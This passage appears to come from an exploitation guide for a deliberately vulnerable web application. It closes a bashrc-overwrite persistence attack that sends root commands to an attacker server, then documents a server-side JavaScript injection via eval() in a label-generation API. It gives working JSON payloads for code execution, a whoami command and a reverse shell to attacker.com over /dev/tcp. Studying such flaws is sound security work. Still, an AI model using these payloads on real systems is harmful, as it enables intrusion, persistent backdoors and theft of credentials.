 3. **Command Exfiltration Attack:**
   - Read existing bashrc file using path traversal
   - Modify content to include command monitoring hooks
   - Upload modified bashrc back to overwrite original
   - All root commands will be sent to attacker server

**Impact:**
- Access to sensitive configuration files and credentials
- Remote code execution through file modification
- Persistent backdoor installation

---

### 7. Server-Side JavaScript Injection (SSJS) - Label Generation Service

**Vulnerability Details:**
The shipping label generation service uses dangerous `eval()` statements to process user-supplied first and last names for "capitalization," creating a critical server-side JavaScript injection vulnerability that allows arbitrary code execution.

**Exploitation via Frontgate Interface:**

**Target Endpoint:** `POST /api/labels/generate`

1. **Access Label Generation:**
   - Navigate to the shipping/labels section of the application
   - Use the label generation form to create shipping labels
   - The vulnerability exists in the firstName and lastName input fields

2. **Basic SSJS Injection Payloads:**
   
   **Simple Code Execution Test:**
   ```json
   {
     "firstName": "\"; console.log('SSJS Injection executed!'); \"",
     "lastName": "Doe",
     "address": "123 Main Street, City, State 12345",
     "trackingId": "TRACK-12345678"
   }
   ```

   **Reverse Shell Establishment:**
   ```json
   {
     "firstName": "\"; require('child_process').exec('bash -i >& /dev/tcp/attacker.com/4444 0>&1'); \"",
     "lastName": "Doe",
     "address": "123 Main Street",
     "trackingId": "TRACK-12345678"
   }
   ```

   **System Command Execution (whoami):**
   ```json
   {
     "firstName": "\"; require('child_process').exec('whoami', (error, stdout, stderr) => { console.log('User:', stdout); }); \"",
     "lastName": "Doe",
     "address": "123 Main Street",
     "trackingId": "TRACK-12345678"
   }
   ```
